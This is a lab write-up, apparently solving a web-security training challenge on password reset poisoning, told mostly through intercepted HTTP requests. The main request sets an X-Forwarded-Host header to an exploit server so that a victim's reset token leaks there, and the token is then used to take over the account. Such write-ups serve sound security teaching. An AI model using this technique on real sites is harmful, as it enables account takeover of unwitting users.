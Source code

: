 # Lab 13: Password reset poisoning via middleware

## Description

This lab is vulnerable to password reset poisoning. The user `carlos` will carelessly click on any links in emails that he receives. To solve the lab, log in to Carlos's account. You can log in to your own account using the following credentials: `wiener:peter`. Any emails sent to this account can be read via the email client on the exploit server.

---

## Solution

Login with the credentials `wiener:peter` and intercept the login request in case it's useful later.

```http
POST /login HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=2NuLDGBnqy2BwlWPTe1RSqel5O5hpynT
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 30
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter
```

After successfully logging in, an account screen is rendered that displays the current user's email address along with the option to update the user account's email address.

Log back out and return to the login page. This time, choose the `Forgot Password?` option. A prompt to enter the username or email address is rendered. Enter the username `wiener` and intercept the request.

```http
POST /forgot-password HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=aod71FWtnKgcfwfw1ujobk49D6nQNylf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener
```

Navigate to `wiener`'s email client. An email has been generated with the following password reset link: `https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password?temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A`. The token appears to be fairly random and not merely an encoded blob of user account data (i.e., `base64(username)`). Follow the link to be taken to a new form to change the password.

Submit the form with `peter` as the new password and intercept the request.

```http
POST /forgot-password?temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=aod71FWtnKgcfwfw1ujobk49D6nQNylf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 101
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password?temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

temp-forgot-password-token=3RjFx6ZFZYxNThvrOYl4hd0iZ7SwEV5A&new-password-1=peter&new-password-2=peter
```

A successful password change yields a 302 redirect to `/`.

So far, this challenge is the same as [12 - Password reset broken logic](12%20-%20Password%20reset%20broken%20logic.md). However, the backend of this challenge doesn't simply check whether the token parameter exists and then change `username`'s password. The vulnerability is in the way the password reset link is generated during in the `POST /forgot-password` endpoint.

This endpoint is sensitive to the fact that it may be behind a reverse proxy. If it is, then its hostname probably isn't routable to the client and thus would be useless in the password reset link. Instead, it should use the same hostname the client was attempting to access when it made its request to the reverse proxy. This is indicated by the `X-Forwarded-Host` header.

By submitting a `POST` request to `/forgot-password` with the username `carlos` and the `X-Forwarded-Host` header set to the hostname of the challenge's exploit server, the endpont will send an email with the following link: `https://$X_FORWARDED_HOST/forgot-password?temp-forgot-forgot-password-token=$TOKEN`. When `carlos` clicks on this link, he will unknowingly send a request with his password reset token to the exploit server.

```http
POST /forgot-password HTTP/1.1
Host: aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Cookie: session=aod71FWtnKgcfwfw1ujobk49D6nQNylf
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net
Dnt: 1
Referer: https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
X-Forwarded-Host: exploit-ac421ff71e034b6880656dd8013c00d3.web-security-academy.net

username=carlos
```

Retrieve the password change token from the exploit server's access logs.

![](images/Pasted%20image%2020210814171941.png)

Browse to `https://aca41f571ec54bf580676d8100ae00e8.web-security-academy.net/forgot-password?temp-forgot-password-token=NiX6Rq9cwjXBF8wWEj4T3A46q2Qf4nlL` and change `carlos`'s password. Login as `carlos` to complete the challenge.
